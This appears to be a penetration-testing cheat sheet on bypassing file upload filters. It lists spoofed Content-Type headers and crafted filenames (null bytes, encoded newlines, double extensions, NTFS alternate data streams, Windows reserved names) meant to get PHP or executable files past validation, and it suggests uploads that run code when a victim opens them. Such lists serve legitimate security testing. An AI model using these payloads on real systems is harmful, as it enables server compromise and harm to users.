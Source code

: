 # File Upload

## Bypass File Upload

1.Bypass content-type check
```
Content-Type: application/x-php
Content-Type: application/octet-stream
Content-Type: text/plain
Content-Type: image/png
Content-Type: image/jpeg
```

2.Bypass file extension check
  - Using some uppercase letter: **pHp, pHP5, PhAr**
  - If the extension is validated, change it when send the request in burp
    ```
    filename="dapos.php.jpg" Change to => filename="dapos.php"
    ```
      or
    ```
    filename="dapos.jpg" Change to => filename="dapos.jpg.php"
    ```
  - Try adding special characters at the end, you could use burp intruder to bruteforce all the ASCII and Unicode character
    - file.php%20
    - file.php%0a
    - file.php%00
    - file.php%0d%0a
    - file.php/
    - file.php.\
    - file.
    - file.php....
    - file.pHp5....
  - Try to bypass the protections tricking the extension parser ot the server-side by doubling the extension or adding junk data (null bytes) between extension
    - file.png.php
    - file.png.pHp5
    - file.php%00.png
    - file.php\x00.png
    - file.php%0a.png
    - file.php%0d%0a.png
    - flile.phpJunk123png
  - Add another layer of extensions
    - file.png.jpg.php
    - file.php%00.png%00.jpg
  - Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character “:” will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. “file.asax:.jpg”). This file might be edited later using other techniques such as using its short filename. The “::$data” pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. “file.asp::$data.”)

## Other Tricks

1. Rename the uploaded file (to change extension or another vulnerability\
2. Upload an executable (.exe) or an .html (less suspicious) that will execute code when accidentally opened by victim
3. Possible Information disclosure
   - Upload several times (and at the same time) the same file with the same name
   - Upload a file with the name of a file or folder that already exists
   - Uploading a file with “.”, “..”, or “…” as its name. For instance, in Apache in Windows, if the application saves the uploaded files in “/www/uploads/” directory, the “.” filename will create a file called “uploads” in the “/www/” directory.
   - Upload a file that may not be deleted easily such as “…:.jpg” in NTFS. (Windows)
   - Upload a file in Windows with invalid characters such as |<>*?” in its name. (Windows)
   - Upload a file in Windows using reserved (forbidden) names such as CON, PRN, AUX, NUL, COM1, COM2, COM3, COM4, COM5, COM6, COM7, COM8, COM9, LPT1, LPT2, LPT3, LPT4, LPT5, LPT6, LPT7, LPT8, and LPT9.

